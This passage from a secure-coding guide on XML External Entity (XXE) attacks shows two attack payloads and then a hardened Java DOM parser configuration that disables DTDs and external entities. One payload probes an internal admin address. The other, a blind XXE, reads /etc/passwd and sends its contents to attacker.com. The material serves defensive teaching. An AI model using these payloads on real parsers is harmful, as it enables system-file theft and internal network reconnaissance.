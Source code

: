##### 3. Internal Network Scanning
```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://192.168.1.1:8080/admin">
]>
<root>&xxe;</root>
```

##### 4. Blind XXE (Data Exfiltration)
```xml
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
  %eval;
  %send;
]>
<root></root>
```

### Secure Parser Configuration

#### Java: Secure DOM Parser
```java
public class SecureDOMParser {
    public static DocumentBuilder createSecureBuilder() throws Exception {
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        
        // Disable DTD processing entirely
        factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        
        // Disable external DTDs and entities
        factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        
        // Disable parameter entity processing
        factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
        
        // Use secure processing
        factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
        
        // Set null EntityResolver to prevent entity resolution
        DocumentBuilder builder = factory.newDocumentBuilder();
        builder.setEntityResolver(new SecureEntityResolver());
        
        return builder;
    }
}

class SecureEntityResolver implements EntityResolver {
    @Override
    public InputSource resolveEntity(String publicId, String systemId) throws SAXException {
        // Block all entity resolution
        throw new SAXException("Entity resolution blocked for security: " + systemId);
    }
}
```

